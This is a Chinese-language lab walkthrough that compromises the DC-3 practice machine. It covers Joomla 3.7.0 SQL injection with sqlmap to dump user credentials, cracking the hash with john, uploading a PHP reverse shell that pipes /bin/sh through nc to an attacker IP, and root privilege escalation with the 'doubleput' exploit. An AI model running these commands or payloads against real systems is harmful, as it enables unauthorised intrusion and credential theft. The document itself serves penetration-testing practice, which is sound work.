

### 环境配置

[解决：DC-3 IDE 设备(兹盘/CD-ROM)配置不正确。“ide0:1“上具有 个 IDE 从设备但没有主设备。此配置在虚拟机中 无法正常运行](https://blog.csdn.net/qq_50377269/article/details/137790190)

### 信息搜集

主机发现：`192.168.163.131`


端口扫描


访问网站 http://192.168.163.131/ 获得提示

```shell
dirb http://192.168.163.131/
nikto -h 192.168.163.131
```

扫描目录发现后台登录 http://192.168.163.131/administrator/index.php

`whatweb` 发现网站框架 `Joomla`


`joomscan` 扫描获取详细信息 版本 `Joomla 3.7.0`
### 渗透测试

搜索版本漏洞


#### 数据库爆破

查看 `/usr/share/exploitdb/exploits/php/webapps/42033.txt`


使用该命令：
```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

获取到数据库


```shell
# 获取表
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb --tables --batch
# 获取列 不能用--batch
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' --columns
# 获取用户名 密码
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

|                                                     |                                                     |
| --------------------------------------------------- | --------------------------------------------------- |
|  |  |

获取到用户名、密码


Joomla 使用 `#__` 作为数据库表名的**动态前缀占位符**，若安装时前缀设为 `jos_`，则实际表名为 `jos_users` 

将密码保存到 `pass.txt` 破解密码

```shell
john --wordlist=/usr/share/wordlists/john.lst pass.txt
# snoopy           (?)

# 若显示不需要破解，说明之前已破解过，执行命令
john --show pass.txt
```
#### 反弹shell

尝试登录网站后台，成功。
在拓展-》模板-》beez3 可以上传php文件，上传反弹shell脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');?>

# kali执行 nc -lvvp 4444
```



根据之前扫描发现的目录，尝试访问 `http://192.168.163.131/templates/beez3/shell.php`


访问成功，连接到kali，`sudo -l` , `find` 提权失败，根据提示进行系统提权

```shell
cat /etc/issue
# Ubuntu 16.04 LTS \n \l
```
#### 系统提权

```shell
searchsploit ubuntu 16.04
searchsploit -p linux/local/39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

按文件内容下载 https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip 只需要 `exploit.tar` 文件

利用一句话木马和蚁剑，上传文件


`tar -xvf exploit.tar` 解压文件，cd进目录，执行以下命令，即可获得root权限

```shell
./compile.sh
./doubleput
```


